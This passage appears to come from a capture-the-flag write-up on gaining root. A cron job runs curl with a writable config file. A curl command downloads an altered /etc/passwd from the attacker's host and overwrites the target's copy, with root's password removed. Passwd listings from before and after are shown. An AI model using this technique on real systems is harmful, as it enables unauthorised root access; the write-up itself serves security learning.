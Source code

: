 within “`10.9.63.75`" is my local IP Address, it would be like this:

```
curl -u "http://10.9.63.75:8000/passwd" -o "/etc/passwd"
```

The system will get the `passwd` file on my local machine and then pass it as `passwd` into `/etc/`, or in other words, it would replace the original `/etc/passwd` with my own one. So I copy the current `/etc/passwd` of the target machine and modify it by replacing the original `root` user configuration as:

```
root:x:0:0:root:/root:/bin/bash
```

to

```
root::0:0:root:/root:/bin/sh
```

Then wait for a minute and re-check the `/etc/passwd` on the target system, the result would be:

Original

```
[REDACTED]@482cbf2305ae:/home/F30s$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
Debian-exim:x:101:103::/var/spool/exim4:/usr/sbin/nologin
[REDACTED]:x:1000:1000::/home/[REDACTED]:/bin/bash
F30s:x:1001:1001::/home/F30s:/bin/bash
```

After the `curl -K /home/F30s/site_check` is auto executed by the cronjobs

```
[REDACTED]@482cbf2305ae:/home/F30s$ cat /etc/passwd
cat /etc/passwd
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```